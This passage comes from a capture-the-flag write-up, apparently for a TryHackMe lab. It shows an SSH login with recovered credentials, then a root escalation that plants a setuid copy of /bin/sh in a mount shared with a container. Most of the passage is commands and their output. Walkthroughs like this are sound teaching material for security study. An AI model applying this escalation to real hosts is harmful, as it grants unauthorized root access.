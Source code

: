 Knowing connor's password we can try login using ssh:

```
ssh connor@10.10.X.X
connor@10.10.X.X's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-99-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun 10 13:54:39 UTC 2020

  System load:  0.0               Processes:              95
  Usage of /:   50.5% of 9.78GB   Users logged in:        0
  Memory usage: 25%               IP address for eth0:    10.10.X.X
  Swap usage:   0%                IP address for docker0: 172.17.X.X


32 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jun 10 11:48:49 2020 from 10.8.X.X
connor@pythonplayground:~$ ls
flag2.txt
connor@pythonplayground:~$ cat flag2.txt 
THM{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
connor@pythonplayground:~$
```

## Flag-3

To get flag3 we have to back to **flag-1** solution and enumerate host again after reverse shell.
There is mount point /mnt/log. Close look shows us that this directory contains logs from machine we logged in using Connor's credentials. As we are root on this machine, prepare something for connor to help him get a root.
```
# cp /bin/sh /mnt/log
# chmod +s /mnt/log/sh
# ls -l /mnt/log/sh
-rwsr-sr-x 1 root root 129816 Jun 10 14:09 /mnt/log/sh
#
```

Now we need to back to connor's ssh session and execute:
```
connor@pythonplayground:~$ /var/log/sh -p
# cd /root/
# ls
flag3.txt
# cat flag3.txt
THM{xxxxxxxxxxxxxxxxxxxxxxx}
#
```


